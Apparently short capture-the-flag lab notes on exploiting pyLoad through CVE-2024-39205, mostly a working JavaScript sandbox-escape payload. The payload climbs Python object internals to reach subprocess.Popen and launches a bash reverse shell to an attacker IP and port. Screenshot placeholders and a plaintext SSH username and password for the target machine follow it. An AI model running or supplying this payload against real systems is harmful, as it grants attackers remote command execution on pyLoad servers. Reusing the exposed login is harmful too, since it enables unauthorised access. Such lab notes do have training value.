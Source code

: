 ![[IMG-20250817194237447.png]]

[CVE  2024-39205](https://github.com/Marven11/CVE-2024-39205-Pyload-RCE/tree/main?tab=readme-ov-file)
Payload:

```js
// [+] command goes here:
let ip = "10.10.14.141";
let port = 4444;
let cmd = "bash -c 'bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1'";
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
function f() {
    return n11
}
```

![[IMG-20250819013050399.png]]

![[IMG-20250819012840908.png]]

![[IMG-20250819013501470.png]]

### ssh
login: marco
password: sweetangelbabylove

![[IMG-20250819013642504.png]]


